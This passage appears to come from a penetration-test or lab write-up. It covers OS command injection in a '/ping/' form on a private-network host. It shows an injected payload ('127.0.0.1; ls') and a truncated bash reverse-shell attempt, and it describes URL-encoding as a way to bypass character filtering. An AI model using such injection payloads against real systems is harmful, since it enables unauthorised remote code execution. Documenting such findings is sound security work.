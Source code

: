 
**🌐 Vulnerability — `/ping/` RCE via Command Injection**

📍 Location
`http://192.168.0.1X/ping/`

🕵️ Description
- This functionality allows the user to enter an IP address to perform a _ping_.    
- There is no input validation or sanitization.    
- It is suspected to be vulnerable to **OS Command Injection**.    

Proof of Concept
* *We entered the following payload in the ping input field:
`127.0.0.1; ls`

 🕳️ Exploitation of the `/ping/` endpoint

🎯 Objective:
Obtain a **reverse shell** through the `/ping/` form parameter, which executes system commands directly from user input.
![RCE vulneravility find](/assets/images/posts/atrium-report/vuln-rce.png)

### **Exploiting the `/ping/` Endpoint**

**Objective**

To achieve a **reverse shell** by leveraging the `/ping/` form parameter, which executes system commands based on user input.

#### **Initial Tests**

Initial attempts with a standard bash reverse shell (`127.0.0.1; bash -i >`) were unsuccessful. The server recognized the command but failed to execute it, likely due to filtering of special characters like `>`, `&`, and `"`.

#### **Solution: URL-Encoded Payload**

To bypass the server's input filtering, a classic bash reverse shell payload was URL-encoded. This method successfully disguised the malicious characters.
